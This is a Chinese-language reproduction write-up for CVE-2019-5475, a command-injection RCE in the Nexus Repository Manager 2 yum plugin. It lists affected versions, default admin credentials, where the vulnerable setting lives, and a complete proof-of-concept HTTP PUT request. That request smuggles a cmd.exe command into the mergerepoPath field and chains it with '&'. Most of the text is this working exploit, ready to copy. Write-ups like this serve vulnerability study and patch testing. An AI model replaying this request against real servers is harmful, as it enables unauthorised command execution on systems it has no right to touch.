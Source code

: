 （CVE-2019-5475）Nexus2 yum插件RCE漏洞
======================================

一、漏洞简介
------------

该漏洞默认存在部署权限账号，成功登录后可使用"createrepo"或"mergerepo"自定义配置，可触发远程命令执行漏洞

二、漏洞影响
------------

Nexus Repository Manager OSS \<= 2.14.13 Nexus Repository Manager Pro
\<= 2.14.13 限制：admin权限才可触发漏洞

三、复现过程
------------

首先以管理员身份（admin/admin123）登录 然后找到漏洞位置：Capabilities -
Yum:Configuration - Settings

![](resource/(CVE-2019-5475)Nexus2yum插件RCE漏洞/media/rId24.png)

点击 Save 抓包，更改mergerepoPath后的value值

    C:\\Windows\\System32\\cmd.exe /k dir&

![](resource/(CVE-2019-5475)Nexus2yum插件RCE漏洞/media/rId25.png)

此处使用 /k 是因为这样命令执行完会保留进程不退出，而 /c
后执行完会退出；由于给用户提供的命令后面加了一个
\--version，所以后面要加个&，&表两个命令同时执行，这样就不会干扰其他命令的执行

Poc如下：

    PUT /nexus/service/siesta/capabilities/00012bdb034073a3 HTTP/1.1
    Host: 127.0.0.1:8081
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json,application/vnd.siesta-error-v1+json,application/vnd.siesta-validation-errors-v1+json
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    X-Nexus-UI: true
    Content-Type: application/json
    X-Requested-With: XMLHttpRequest
    Content-Length: 241
    DNT: 1
    Connection: close
    Referer: http://127.0.0.1:8081/nexus/
    Cookie: NXSESSIONID=105c7cb1-a307-43a3-9ff8-9770b5ae3b13






    {"typeId":"yum","enabled":true,"properties":[{"key":"maxNumberParallelThreads","value":"10"},{"key":"createrepoPath","value":"111"},{"key":"mergerepoPath","value":"C:\\Windows\\System32\\cmd.exe /k dir&"}],"id":"00012bdb034073a3","notes":""
